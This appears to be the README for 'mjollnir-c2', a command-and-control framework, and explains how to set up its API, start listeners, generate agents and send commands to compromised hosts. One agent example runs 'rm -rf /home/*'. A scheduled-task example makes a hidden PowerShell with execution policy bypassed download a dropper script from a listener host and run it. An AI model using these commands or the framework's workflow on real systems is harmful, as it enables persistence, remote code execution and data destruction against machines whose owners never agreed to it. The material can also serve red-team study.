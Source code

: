 First construct the sqlite database:

```
$ cd mjollnir-c2-pub
$ python3
>>> from mjollnir_api import db, create_app
>>> db.create_all(app=create_app())
```

Then modify the config.json file to suit your needs.

Then start the api:

```
$ cd mjollnir-c2-pub
$ export FLASK_DEBUG=1
$ export FLASK_APP=mjollnir_api
$ flask run -h 0.0.0.0 -p 5000
```

Eventually start the cli:

```
$ cd mjollnir-c2-pub/mjollnir_cli
$ python mjollnir-cli.py
```

In order to use mjollnir-c2, you need to authenticate first. And so, you need a user and a password.
The first thing you may want to do is create a user/password:

```
Mjollnir > first_user
```

# Login/Logout into the mjollnir api

```
Mjollnir > login <username>
Mjollnir > logout
```

# Missions

First, create a mission

```
Mjollnir > mission -c <mission_name>
```

Not usefull yet, but soon you will be able to manage campaign

# Listener

There is a __listener menu__ that can be accessed using:

```
Mjollnir > listener
```

Then you have other commands:

```
Mjollnir > list (list all available listeners)
Mjollnir > use <listener_name> (use a listener based on its name)
Mjollnir > info (get some infos about the selected listener)
Mjollnir > set PORT 5555
Mjollnir > start (start the selected listener)
```

Then you could list all your started listeners using:

```
Mjollnir > listener -l
```

# Agent

There is a __agent menu__ that can be accessed using:

```
Mjollnir > agent
```

Then you have other commands:

```
Mjollnir > list (list all available agents)
Mjollnir > use <agent_name> (use an agent based on its name)
Mjollnir > set RPORT 5555
Mjollnir > generate (generate on the fly the selected agent)
```

Then you could list all your active agents using:

```
Mjollnir > agent -l
```

You could interact with an agent using:

```
Mjollnir > agent -i <agent_uid>
Mjollnir > CMD whoami; touch hello; rm -rf /home/* (read carrefully before copy-paste)
Mjollnir > group <new_group_name>
```

You will see that the task has been submitted. If the result is too long to get, you could grab it later using:

```
Mjollnir > task -r <task_uid>
```

# On registering task

There is a __on registering task menu__ that can be accessed using:

```
Mjollnir > r-task
```

This menu allows to set a task as soon as an agent registers.

For this you need the agent name. So before you would like to:

```
Mjollnir > agent
Mjollnir > list
```

Then for example set a scheduled task like:
```
CMD SCHTASKS /CREATE /SC DAILY /TN "MyTasks\my task" /TR "powershell.exe -ep bypass -w 1 -nop $e=(New-Object System.Net.WebClient).DownloadString(\\\"http://192.168.0.129:5000/public/droper.ps1\\\");IEX $e" /ST 9:21
```

# Group task

It is possible to submit a task for all your agents with the group __group_name__

```
Mjollnir > g-task
```





